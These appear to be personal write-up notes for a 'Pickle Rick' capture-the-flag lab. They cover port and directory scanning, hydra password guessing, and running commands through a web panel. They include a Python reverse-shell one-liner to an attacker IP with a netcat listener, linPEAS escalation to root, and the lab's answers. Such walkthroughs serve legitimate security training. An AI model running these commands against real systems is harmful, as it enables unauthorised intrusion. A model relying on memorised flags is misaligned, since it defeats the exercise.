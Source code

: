 export IP=10.10.106.160

# tool - nmap: 
 - nmap -sV -sC -oN nmap/initial $IP

# open ports
 - 20
 - 80

# website details
 - username from source code: R1ckRul3s

# tool - dirsearch
 - directory: assets

# tool - hydra
 - hydra -l R1ckRul3s -P /usr/share/wordlists/metasploit/password.lst ssh://$ip
    - No output as the server doesnt support password authentication

# tool - gobuster
 - gobuster dir -t 100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -x php,txt,html -u http://$ip
    - detected files which includes login.php and robots.txt

# tool - linPEAS
 - Run linpeas script after obtaining reverse shell. This will show that the current user can run sudo su and go to root dir

# process
 - Got "Wubbalubbadubdub" from robots.txt
 - tried to login using the username from website source and this above string as password and got it.
 - The logged in page as many tabs and the tab with the name commands panel lets you run commands
 - Ran `ls` and it listed all the files available inside the directory which included index.html
    - `Sup3rS3cretPickl3Ingred.txt` was one among the files listed
    - `clue.txt` - asked to look around the filesystem
 - So tried accessing the url `http://10.10.106.160/Sup3rS3cretPickl3Ingred.txt` and got the first ingredient
 - Tried to list the dirs inside the home directory which showed there is a rick user home dir, there was a file inside it.
 - The cat command was not working as the output said, this command is disabled, so tried using grep "" <filename> which got me the second answer.
    - `cd ../../../home/rick && grep "" a.txt`
    - Use grep -R command to get the contents of all the files, including PHP files at once. This will be useful because contents of PHP files will show you the application logic
    - Another way is to use bash scripting, to echo lines using while. 
 - There is a base64 looking string inside the portal.php page which is accessible after logging in. This base64 string is encoded multiple times using base64, so we have to decode it multiple times to get the string.
    -  `echo "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==" | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d` which returns the string `rabbit hole`. This is not useful in the CTF.
 - Considering we can run commands, we can start a reverse shell to navigate through the os file system. For this check if python or python3 --version to see if it works. Or use any scripting language for that matter. Once confirmed, goto pentest monkey's reverse shell cheatsheet to get a onliner to start the reverse shell. Run `nc` locally before submitting the reverseshell command to get connected.
    - `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.25.169",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
    - `nc -lv -p 1234`
    - Run linpeas and get information
    - Change dir to roots home dir and you will see another file with the phrase `fleeb juice` which is the 3rd ingradient.